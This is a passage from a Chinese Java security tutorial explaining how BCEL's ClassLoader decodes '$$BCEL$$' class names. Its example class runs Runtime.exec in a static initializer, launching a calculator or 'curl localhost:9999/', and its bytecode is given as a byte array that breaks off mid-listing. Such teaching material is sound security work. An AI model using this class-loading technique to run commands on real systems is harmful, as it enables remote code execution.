 如果被加载的类名中包含了`$$BCEL$$`关键字，BCEL就会使用特殊的方式进行解码并加载解码之后的类。



**示例 - 使用BCEL实现命令执行：**

```java
package com.anbai.sec.classloader;

import com.sun.org.apache.bcel.internal.classfile.Utility;

public class BCELClassLoader {

	/**
	 * com.anbai.sec.classloader.TestBCELClass类字节码，Windows和MacOS弹计算器，Linux执行curl localhost:9999
	 * <pre>
	 * package com.anbai.sec.classloader;
	 *
	 * import java.io.IOException;
	 *
	 * public class TestBCELClass {
	 *
	 * 	static {
	 * 		String command = "open -a Calculator.app";
	 * 		String osName  = System.getProperty("os.name");
	 *
	 * 		if (osName.startsWith("Windows")) {
	 * 			command = "calc 12345678901234567";
	 *      } else if (osName.startsWith("Linux")) {
	 * 			command = "curl localhost:9999/";
	 *       }
	 *
	 * 		try {
	 * 			Runtime.getRuntime().exec(command);
	 *      } catch (IOException e) {
	 * 			e.printStackTrace();
	 *      }
	 *   }
	 * }
	 * </pre>
	 */
	private static final byte[] CLASS_BYTES = new byte[]{
			-54, -2, -70, -66, 0, 0, 0, 50, 0, 56, 10, 0, 15, 0, 26, 8, 0, 27, 8, 0, 28, 10, 0, 29, 0, 30, 8, 0, 31,
			10, 0, 32, 0, 33, 8, 0, 34, 8, 0, 35, 8, 0, 36, 10, 0, 37, 0, 38, 10, 0, 37, 0, 39, 7, 0, 40, 10, 0, 12,
			0, 41, 7, 0, 42, 7, 0, 43, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111,
			100, 101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101, 1, 0, 8, 60, 99,
			108, 105, 110, 105, 116, 62, 1, 0, 13, 83, 116, 97, 99, 107, 77, 97, 112, 84, 97, 98, 108, 101, 7, 0, 44,
			7, 0, 40, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 18, 84, 101, 115, 116, 66, 67,
			69, 76, 67, 108, 97, 115, 115, 46, 106, 97, 118, 97, 12, 0, 16, 0, 17, 1, 0, 22, 111, 112, 101, 110, 32,
			45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114, 46, 97, 112, 112, 1, 0, 7, 111, 115, 46, 110,
			97, 109, 101, 7, 0, 45, 12, 0, 46, 0, 47, 1, 0, 7, 87, 105, 110, 100, 111, 119, 115, 7, 0, 44, 12, 0, 48,
			0, 49, 1, 0, 22, 99, 97, 108, 99, 32, 49, 50, 51, 52, 53, 54, 55, 56, 57, 48, 49, 50, 51, 52, 53, 54, 55,
			1, 0, 5, 76, 105, 110, 117, 120, 1, 0, 20, 99, 117, 114, 108, 32, 108, 111, 99, 97, 108, 104, 111, 115,
			116, 58, 57, 57, 57, 57, 47, 7, 0, 50, 12, 0, 51, 0, 52, 12, 0, 53, 0, 54, 1, 0, 19, 106, 97, 118, 97, 47,
```